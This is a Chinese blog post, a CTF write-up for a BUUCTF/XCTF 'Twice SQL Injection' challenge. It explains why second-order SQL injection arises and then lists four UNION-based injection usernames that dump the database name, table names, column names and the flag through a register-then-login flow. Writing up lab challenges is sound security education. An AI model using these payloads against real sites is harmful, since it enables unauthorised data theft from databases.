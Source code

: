 <!--yml
category: 未分类
date: 2022-04-26 14:43:01
-->

# buuctf XCTF October 2019 Twice SQL Injection 二次注入原理+题解_AAAAAAAAAAAA66的博客-CSDN博客

> 来源：[https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122059073](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122059073)

这里要吐槽一点XCTF，之前翻题目时发现有道10分的，还是二次注入，还是0人做出，看了write up觉得还挺简单，就想混着写一下，结果0人做出的原因居然是环境打不开![](img/7d9e3d7188cac3358f1ddff2e70b623a.png)![](img/be4fb0974c2b996dec8fcf7d5188c1cc.png)![](img/902f47ba5eb99df32e06aab44ad09544.png)。然后在buuctf 平台找到了这道题，所以就试着写下write up。

 ![](img/3122230776efe92dd21b561b3c9a61fe.png)

**目录**

[二次注入](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5 "二次注入")

[二次注入的成因](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5%E7%9A%84%E6%88%90%E5%9B%A0 "二次注入的成因")

[二次注入常出现的地方](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5%E5%B8%B8%E5%87%BA%E7%8E%B0%E7%9A%84%E5%9C%B0%E6%96%B9 "二次注入常出现的地方")

[题解](#%E9%A2%98%E8%A7%A3 "题解")

[思路](#%E6%80%9D%E8%B7%AF "思路")

[ 步骤](#%C2%A0%E6%AD%A5%E9%AA%A4 " 步骤")

* * *

# 二次注入

## 二次注入的成因

*   **由于开发者为了防御sql注入，使网站对我们输入的恶意语句中的一些重要的关键字进行了转义，使恶意的sql注入无法执行（比如说将单引号转义，使其无法闭合）**。
*   **但是数据库存储我们的数据时，输入的恶意的语句又被还原成转义之前的语句（数据库又没有对存储的数据进行检查，默认存储的数据都是无害的）**
*   **这时仍然没有被攻击，但是当我们数据库在进行查询时，如果调用了这条信息，就可能会产生sql注入。**

**所以要说明的是，二次注入的产生是需要以上一些特定的条件的。所以二次注入一般比较难发现**。

## 二次注入常出现的地方

# 题解

## 思路

```
接下来我们说的详细一点：
首先判断，为什么存在二次注入

我们首先注册，登陆，都使用了sql语句发现无果，
然后我们进入Info页面，进行一个简单的sql语句 发现服务器并没有过滤掉关键字，只是将我们的
单引号用\转义。

这个时候就是存在二次注入的一个必要条件
```

![](img/3016e6f2ebe3e4573edee1bf60c081a6.png)

```
所以我们接下来就通过
1.注册恶意用户名 
2.登陆， 在登陆过程中，肯定要将我们输入的数据和数据库进行比对，而在这个
查询数据库中的用户名进行比对的这个过程中，会执行我们插入数据库的用户名（也就是恶意sql注入语句）
所以使用下面4个恶意用户名，分别注册4个账号，进行登陆操作，一步一步爆出来

1' union select database() #
1' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
1' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
1' union select flag from flag #

下面给出一些步骤
```

##  步骤

```
注册 用户名为： 1' union select database() #  密码：111
```

![](img/a5d4dfe0812ed14a41e9117465abf2c3.png)

 点击Register ，注册成功

点击Register 后，到达Login页面，输入账户密码

```
用户名为： 1' union select database() #  密码：111
```

 ![](img/d9f8d39bd60fe9238ef3e31c74a08247.png)

点击登陆，爆出了数据库。

![](img/6dec89054597c00d4adf978671a83546.png)

 接下来重复操作，注册-登陆-爆出信息，依次获取表名，字段名，字段值，最终得到flag。

表名

![](img/f921da6e4b7f261f64c84a78bd3a2819.png)

 字段名

![](img/35226d97fe6f57964cca1b286c3272cc.png)

 字段值（flag）

![](img/4c686ea02523bf9097e684440165d231.png)